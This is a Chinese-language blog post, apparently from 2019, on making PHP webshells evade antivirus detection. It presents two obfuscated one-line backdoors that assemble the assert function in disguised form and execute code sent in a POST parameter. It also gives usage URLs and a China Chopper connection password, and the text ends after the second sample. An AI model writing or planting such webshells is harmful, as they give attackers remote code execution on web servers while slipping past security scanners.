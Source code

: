 ```yaml
---
layout:     post
title:      webshell Bypass
date:       2019-1-3
author:     Wh0ale
header-img: img/anatomy_of_php_hack.jpg
catalog: true
tags:
    - bypass
---
```


# **0x01webshell管理工具的免杀**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyt9c8n8otj21nv0zcaf9.jpg)

## 1.回调后门

**1.php**

```php 
<?php 
    $POST['POST']='assert';
    $array[]=$POST;
    $array[0]['POST']($_POST['joker']);
?>
```

**用法:**  http://www.xxx.com/1.php

**菜刀连接用法:**  http://www.xxx.com/1.php

**密码：**joker

**详解：**  assert，是php代码执行函数，与eval()有同样的功能，应为$array[],POST[]都是数组，所以$array[]=$POST，就是把$POST数组的值赋给$array数组，这样的话$array[0]['POST']的输出就是assert，所以组成了一句话木马

assert($_POST['joker'])，直接用菜刀链接即可



**2.php**

```php
<?php
error_reporting(0);
$g = array('','s');
$gg = a.$g[1].ser.chr('116');
@$gg($_POST[joker]);
?>
```

**用法:**  http://www.xxx.com/2.php

**菜刀连接用法:** http://www.xxx.com/2.php
